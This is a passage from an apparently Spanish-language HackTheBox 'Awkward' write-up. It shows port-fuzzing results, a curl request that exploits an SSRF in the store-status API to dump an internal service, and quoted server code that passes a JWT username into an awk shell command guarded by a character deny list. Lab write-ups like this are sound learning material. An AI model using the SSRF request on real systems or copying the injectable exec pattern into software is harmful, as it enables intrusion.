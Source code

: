 ```console
000000081:   200        8 L      13 W       132 Ch      "0080"
000003003:   200        685 L    5834 W     77002 Ch    "3002"
000008081:   200        54 L     163 W      2881 Ch     "8080"
```

La web del puerto 80 es la de hat-valley. La del 8080 tiene el mismo codigo js. Lo interesante es la del puerto 3002 Como el codigo es muy largo 
lo ideal es volcarlo en un index.html y verlo haciendo un servidor en el localhost.
```console
└─$ curl -s 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:3002"' > index.html;
```
![](/assets/images/htb-awkward/awkward5.png)

De entre todo el codigo encontramos:
```
app.get('/api/all-leave', (req, res) => {
    const user_token = req.cookies.token
    if(user_token) { const decodedToken = jwt.verify(user_token, TOKEN_SECRET)
    if { user = decodedToken.username }}
    const bad = [";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"]
    const badInUser = bad.some(char => user.includes(char));
    if(badInUser) { return res.status(500).send("Bad character detected.") } else {
        exec("awk '/" + user + "/' /var/www/private/leave_requests.csv"...
```
